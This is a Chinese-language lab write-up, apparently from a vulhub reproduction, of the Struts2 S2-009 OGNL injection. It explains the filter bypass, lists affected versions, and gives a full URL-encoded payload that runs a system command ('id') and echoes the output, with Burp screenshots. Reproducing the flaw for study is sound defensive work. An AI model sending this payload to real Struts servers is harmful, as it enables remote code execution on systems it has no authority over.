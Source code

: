 # Struts2_009_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行--->有回显

### 0x01漏洞介绍

​			Struts2对S2-003的修复方法是禁止#号，于是s2-005通过使用编码\u0023或\43来绕过；后来Struts2对S2-005的修复方法是禁止\等特殊符号，使用户不能提交反斜线。但是，如果当前action中接受了某个参数example，这个参数将进入OGNL的上下文。所以，我们可以将OGNL表达式放在example参数中，然后使用`/helloword.acton?example=<OGNL statement>&(example)('xxx')=1`的方法来执行它，从而绕过官方对#、\等特殊字符的防御，在修补了S2-003和S2-005之后，攻击者又发现了一种新的绕过`ParametersInterceptor`正则保护的攻击方式当传入`(ONGL)(1)`时，会将前者视为ONGL表达式来执行，从而绕过了正则的匹配保护。而且由于其在HTTP参数值中，也可以进一步绕过字符串限制的保护

##### 			影响版本

  		2.1.0 - 2.3.1.1

### 0x02漏洞复现

触发地址`/ajax/example5.action`

#### payload：

/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27**id**%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]



​			**登录界面**

![S2_009_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_009_rce_1.jpg)

​			**Burpsuite抓包，发送第一个payload，发现id被执行**

![S2_009_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_009_rce_2.jpg)

​			

### 0x03参考资料

http://luckyzmj.cn/posts/1a3db16d.html

https://blog.csdn.net/qq_45625605/article/details/103121948